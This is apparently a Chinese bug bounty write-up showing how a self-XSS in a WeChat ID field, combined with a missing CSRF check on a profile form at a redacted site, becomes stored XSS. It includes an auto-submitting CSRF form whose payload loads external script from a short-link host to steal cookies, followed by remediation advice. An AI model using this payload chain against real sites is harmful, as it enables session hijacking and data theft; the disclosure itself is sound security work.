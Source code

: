 ```yaml
---
layout: post
title:  一个简单的selfxss+csrf=存储型xss
categories: [bounty]
tags: [bounty]
---
```

#### 漏洞演示：
在`https://game.AAA.com/home/3`

微信号处没有做过滤，导致可以写30个任意字符，造成了self xss

self xss是没有什么用的，刚好这里也没有防御csrf

所以我们可以通过csrf先将微信号修改成xss字符，然后用户访问用户中心即可触发xss，导致cookie等数据被盗，或者直接通过xss执行一些其他敏感操作

因为源站是https的，再加上只有30个字符，所以使用//可以直接继承`https://`，然后通过https的短链接加载外域js文件`https://www.thinkings.org/1.js`
![1.png](img/article/2018.1.21/1.png)
用户微信原来是
![2.png](img/article/2018.1.21/2.png)
访问如下html页面后
```
<body>
    <form action="https://game.AAA.com/home/setinfo" method="POST">
      <input type="hidden" name="year" value="2018" />
      <input type="hidden" name="month" value="1" />
      <input type="hidden" name="day" value="12" />
      <input type="hidden" name="province" value="110000" />
      <input type="hidden" name="city" value="110101" />
      <input type="hidden" name="county" value="" />
      <input type="hidden" name="qq" value="1111111" />
      <input type="hidden" name="wechat" value='"><script src="//dwz.is/onoxu' />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```
![3.png](img/article/2018.1.21/3.png)
再访问`https://game.AAA.com/home/3`
触发xss，弹出cookie
![4.png](img/article/2018.1.21/4.png)
同时
`https://passport.AAA.com/home/info`的昵称处也存在xss，限制在2-20个字符

而且这个用户名数据还显示在`https://game.AAA.com/home/3`，会造成`https://game.AAA.com/home/3`这个页面有2个xss注入点，如果没有这个30个字符的点的话，我们还是可以通过拼接的方式来实现。


#### 修复建议：
用户的数据要么入库编码，要么出库编码；
修复csrf漏洞，限制referer或加token或者httponly(不过不能防御js操作攻击..)